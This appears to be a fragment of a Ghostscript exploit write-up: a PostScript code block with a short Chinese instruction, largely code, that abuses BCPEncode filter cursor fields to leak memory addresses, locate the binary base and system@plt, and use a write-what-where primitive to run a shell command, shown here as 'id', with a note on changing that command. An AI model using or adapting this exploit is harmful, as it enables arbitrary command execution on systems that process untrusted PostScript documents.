 ```plain
 <4646464646464646> concatstrings % s->min_left
 1 1 80 {pop <47> concatstrings }  for% s->error_string
 <4848484848484848> concatstrings % s->cursor->r->ptr 
 exch concatstrings  % (where) s->cursor->r->limit -  also update s->cursor->w->ptr
 <4444444444444444> concatstrings % s->cursor->w->limit
 <4545454545454545> concatstrings % s->cbuf.  
 /openWriteFilter 5000 string /NullEncode filter /BCPEncode filter def
 openWriteFilter exch writestring
 openWriteFilter flushfile
 openWriteFilter exch writestring
}def

/readProc{
    leakMemory
    leakAsString
    dup (Found leak: 0x) exch concatstrings (\n) concatstrings print
    revision 9560 ge 
    {dup 375 subOffset} %start of bcpe stream}
    {dup 383 subOffset} 
    ifelse
    dup (BCPE stream: 0x) exch concatstrings (\n) concatstrings print
    dup 111 addOffset %start of read cursor-1
    dup (Start of read cursor -1 : 0x) exch concatstrings (\n) concatstrings print
    dup 81 addOffset %start of proc
    dup (Proc 0x) exch concatstrings (\n) concatstrings print
    dup 64 addOffset
    stringToAddress exch stringToAddress exch concatstrings
    exch stringToAddress
    writewhatwhere
    leakMemoryFilter () writestring leakMemoryFilter flushfile
    leakBuffer
    revision 9560 ge
    {2191 8 getinterval reverse leakAsString}
    {2199 8 getinterval reverse leakAsString}
    ifelse    
    dup (Found leak proc: 0x) exch concatstrings (\n) concatstrings print
}def 

readProc
1154176 subOffset
dup (Base r-x: 0x) exch concatstrings (\n) concatstrings print
6164 addOffset
dup (system@plt: 0x) exch concatstrings (\n) concatstrings print
exch 231 addOffset
dup (process : 0x) exch concatstrings (\n) concatstrings print
stringToAddress exch stringToAddress exch
writewhatwhere
leakMemoryFilter (aa) writestring leakMemoryFilter flushfile
```

并在此行修改想要执行的命令（ascall 码），此处命令为 id
